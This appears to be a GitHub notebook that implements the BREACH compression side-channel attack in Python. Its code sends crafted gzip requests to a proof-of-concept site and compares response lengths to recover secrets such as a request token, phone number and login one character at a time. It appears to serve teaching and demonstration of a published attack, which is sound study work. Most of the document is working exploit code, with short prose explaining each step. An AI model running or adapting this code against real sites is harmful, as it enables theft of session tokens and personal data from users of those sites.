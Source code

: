 # BREACH Implementation

### Authors

* Miguel Enrile
* Pedro Murcia
* Luis Puyol
* Iñigo Sagredo

This is a BREACH attack implementation in Python. It is not as optimized as it should be, but I wouldn't dare touch anything. The attack is fully detailed in the following URL: http://breachattack.com/resources/BREACH%20-%20SSL,%20gone%20in%2030%20seconds.pdf

For this implementation, we will only use the *Huffman Coding and the Two-Tries Method* shown in the paper above to deduce the value of different variables.
It will be available in the following GitHub repo: https://github.com/pmurcia/BREACH


```python
import requests
import string
from datetime import datetime
```

These are the target elements we want to hack. Each dictionary contains the name of the parameter and the format of the parameter, which is a string of possible characters. If the number of possibilities is lower, it will take less time to finish. All of them should technically work, but the first two have been tested and validated.


```python
targets = [
    {
        "name": "user_phone",
        "format": string.digits
    },
    {
        "name": "request_token",
        "format": string.digits + string.ascii_lowercase[0:6]
    },
    {
        "name": "cu_public_name",
        "format": string.ascii_letters + " "
    },
    {
        "name": "user_login",
        "format": string.ascii_lowercase + "@."
    },
    {
        "name": "permissions",
        "format": string.ascii_letters + string.punctuation + string.digits + " "
    }
]
```

The following header must be added to the request to be able to exploit GZIP on the response.


```python
gzip_header = {'Accept-Encoding': 'gzip, deflate'}
```

We will also keep track of the number of requests done.


```python
total_requests = 0
```

In JavaScript, there are different ways to assign a value to a variable.
1. **Number**. It will start with 0,1,2,3,4,5,6,7,8, or 9
2. **String**. It will start with `'` or `"`
3. **Object**. As JSON notation, `{}`
4. **Array**. As JSON notation, `[]`
5. **Boolean**. It has only two values, `true` or `false`
6. **Null value**. Represented as `null`

There are other types of assignments ($, variable name, or by object creation with `new`), but we will assume that those are the possible values.

So the possible start characters are defined in a list. We will focus on the first four, since those provide more information.


```python
first_chars = ['\'','"','{','[','t','f','n'] + list(string.digits)
```

The function `checkGuess()` will make requests to the website using the *Two-Tries Method* from before. After that, we will read the response content length, and we will have a candidate if both lengths are different.


```python
def checkGuess(target, guess, padding):
    r_1 = requests.get(f"http://malbot.net/poc/?id={target}={padding}{guess}", headers=gzip_header)
    l_1 = int(r_1.headers['Content-Length'])
    
    global total_requests
    total_requests = total_requests + 1
    
    r_2 = requests.get(f"http://malbot.net/poc/?id={target}={guess}{padding}", headers=gzip_header)
    l_2 = int(r_2.headers['Content-Length'])
    
    total_requests = total_requests + 1
    
    return {
        'diff': l_1 != l_2,
        'guess': guess,
        'min': min(l_1,l_2),
        'd': abs(l_1-l_2)
    }
```

The function `getGuesses()` will find the best options for the next character of the target string. In this case, the best options will be valid guesses (both response content lengths are different) whose minimum content length is the minimum of all guesses.


```python
def getGuesses(target, chars, padding, guess = ''):
    # Finding by two-tries method
    result = map(lambda c: checkGuess(target, guess + c, padding), chars)
    
    # Filtering by those whose two tries return different content lengths
    result = [g for g in result if g['diff']]
    
    # Get those with the least content length
    minimum = min([d['min'] for d in result])
    result = [d for d in result if d['min'] == minimum]

    return result
```

`getEndChar` is just a switch-case to determine the last character of the target value.


```python
def getEndChar(begin_char):
    if begin_char in ['\'','"']:
        return begin_char
    elif begin_char == '{':
        return '}'
    elif begin_char == '[':
        return ']'
    elif begin_char in ['t','f']:
        return 'e'
    elif begin_char == 'n':
        return 'l'
    elif begin_char in list(string.digits):
        return ','
```

And finally, `findTarget()` is the responsible of iterating through all of the guesses to get the most likely result.


```python
def findTarget(target, char_seq):
    guesses = getGuesses(target, first_chars, "{}")

    last_char = None
    curr_char = ''

    chars = char_seq + ''.join([getEndChar(g['guess']) for g in guesses])

    while last_char != curr_char:
        tmp_guesses = []
        # Get guesses for each guess
        for guess in guesses:
            guesses_aux = getGuesses(target, chars, "{}", guess['guess'])
            tmp_guesses.extend(guesses_aux)

        # Filter those with less content length
        min_length = min([d['min'] for d in tmp_guesses])
        result = [d for d in tmp_guesses if d['min'] == min_length]

        if len(result) == 1:
            curr_char = result[0]['guess'][-1:]
            first_char = result[0]['guess'][0]
            last_char = last_char if last_char else getEndChar(first_char)
            chars = char_seq + last_char
        
        guesses = result
    
    return guesses
```

With all of that, we are ready to test the algorithm.


```python
for target in targets:
    name = target['name']
    format_t = target['format']
    
    print("=================================================================================")
    print(f"Finding value of {name}...")
    
    before = datetime.now()
    
    guess = findTarget(name,format_t)
    guessed_value = guess[0]['guess']
    
    after = datetime.now()
    
    d = after-before
    total = d.total_seconds()
    minutes = total // 60
    seconds = total - minutes * 60
    
    global total_requests

    print(f"Guessed value of {name}: {guessed_value}")
    print(f"Total number of requests: {total_requests}")
    print(f"Time elapsed: {minutes} min {seconds} s")
    
    total_requests = 0
```
